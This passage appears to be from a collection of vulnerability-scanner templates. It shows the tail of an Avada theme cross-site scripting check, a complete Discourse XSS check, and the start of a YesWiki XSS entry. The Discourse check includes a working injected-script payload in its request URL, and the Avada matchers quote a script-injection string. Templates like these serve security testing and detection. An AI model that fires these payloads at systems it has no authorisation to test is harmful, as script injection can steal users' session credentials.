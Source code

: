 ### Matchers

**Type - word**
- part - body
- words
    1. ">\</script>\<script>alert(document.domain)\</script>
    2. avada-footer-scripts
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Discourse - Cross-Site Scripting
## Description
- Discourse contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,discourse
## Requests
- Method - GET
### URL
- {{BaseURL}}/email/unsubscribed?email=test@gmail.com%27\%22%3E%3Csvg/onload=alert(/xss/)%3E
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. \<svg/onload=alert(/xss/)>
- part - body

**Type - word**
- words
    1. text/html
- part - header

---
# YesWiki \<2022-07-07 - Cross-Site Scripting
## Description
- YesWiki before 2022-07-07 contains a cross-site scripting vulnerability via the id parameter in the AccueiL URL.
